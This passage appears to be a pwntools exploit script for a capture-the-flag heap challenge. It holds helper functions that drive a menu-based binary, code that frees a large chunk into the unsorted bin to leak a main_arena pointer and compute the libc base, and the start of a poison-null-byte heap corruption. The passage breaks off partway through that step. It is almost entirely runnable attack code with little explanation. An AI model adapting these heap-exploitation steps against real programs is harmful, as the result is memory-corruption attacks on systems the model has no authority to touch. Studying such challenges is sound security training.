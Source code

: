 ```python
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
start
bp main+0
bp do_str+0
bp do_tok+0
bp do_del+0
'''.format(**locals())

info = lambda msg: log.info(msg)
sla = lambda msg, data: io.sendlineafter(msg, data)
sa = lambda msg, data: io.sendafter(msg, data)
sl = lambda data: io.sendline(data)
s = lambda data: io.send(data)

def challenge_do_str(size: bytes, input:bytes):
    sla(b"> ", b"1")
    sla(b"size? ", size)
    sa(b"str? ", input)

def challenge_do_tok(idx: bytes, delim: bytes):
    sla(b"> ", b"2")
    sla(b"idx? ", idx)
    sa(b"delim? ", delim)

def challenge_do_del(idx: bytes):
    sla(b"> ", b"3")
    sla(b"idx? ", idx)

io = start()

# leak libc base
challenge_do_str(str(0x420).encode(), b"a")     # idx 0 : largest size of tcache is 0x410 so we create a chunk of size 0x420
challenge_do_str(str(0x10).encode(), b"a")      # idx 1 : barrier with topchunk
challenge_do_del(b"0")                          # del 0 : => unsorted bin
challenge_do_str(str(0x420).encode(), b"a"*8)   # idx 0 : re allocate chunk inside unsorted bin to leak main_arena address inside it
challenge_do_tok(b"0", b"\x01")                 # exploit `info leak vulnerability`

leaked_libc = io.recvline()[-7:-1] + b"\x00"*2
leaked_libc = u64(leaked_libc)
diff = 0x3ebca0 # distance diff from leaked address with libc base
libc.address = leaked_libc - diff
log.success(f"libc.address: {hex(libc.address)}")
# --- end ---

# poison null byte

challenge_do_str(str(0x18).encode(), b"z"*0x18)                         # 2 (a)
```